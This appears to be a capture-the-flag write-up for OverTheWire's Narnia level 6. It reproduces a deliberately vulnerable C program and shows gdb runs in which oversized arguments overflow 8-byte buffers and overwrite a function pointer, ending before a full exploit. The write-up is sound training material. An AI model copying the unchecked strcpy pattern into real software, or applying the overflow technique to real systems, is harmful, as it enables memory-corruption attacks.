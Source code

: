 #Narnia6

narnia.labs.overthewire.org

**Username:** narnia6
**Password:** see [narnia5](https://github.com/Alpackers/CTF-Writeups/tree/master/Misc/OverTheWire/Narnia/Naria5)
**Description:**  
> This wargame is for the ones that want to learn basic exploitation. You can see the most common bugs in this game and we've tried to make them easy to exploit. You'll get the source code of each level to make it easier for you to spot the vuln and abuse it.  

##Write-up

>```
# ./narnia6
./narnia6 b1 b2
>```
>
>```C
/*
    This program is free software; you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation; either version 2 of the License, or
    (at your option) any later version.
>
    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.
>
    You should have received a copy of the GNU General Public License
    along with this program; if not, write to the Free Software
    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
>
extern char **environ;
>
// tired of fixing values...
// - morla
unsigned long get_sp(void) {
       __asm__("movl %esp,%eax\n\t"
               "and $0xff000000, %eax"
               );
}
>
int main(int argc, char *argv[]){
	char b1[8], b2[8];
	int  (*fp)(char *)=(int(*)(char *))&puts, i;
>
	if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }
>
	/* clear environ */
	for(i=0; environ[i] != NULL; i++)
		memset(environ[i], '\0', strlen(environ[i]));
	/* clear argz    */
	for(i=3; argv[i] != NULL; i++)
		memset(argv[i], '\0', strlen(argv[i]));
>
	strcpy(b1,argv[1]);
	strcpy(b2,argv[2]);
	//if(((unsigned long)fp & 0xff000000) == 0xff000000)
	if(((unsigned long)fp & 0xff000000) == get_sp())
		exit(-1);
	fp(b1);
>
	exit(1);
}
>```
>
>```
(gdb) run $(python -c 'print "A"') $(python -c 'print "A"*20')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
>
Starting program: /root/narnia6 $(python -c 'print "A"') $(python -c 'print "A"*20')
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
>
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) run $(python -c 'print "A"*12') $(python -c 'print "A"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
>
Starting program: /root/narnia6 $(python -c 'print "A"*12') $(python -c 'print "A"')
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
>
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
>```
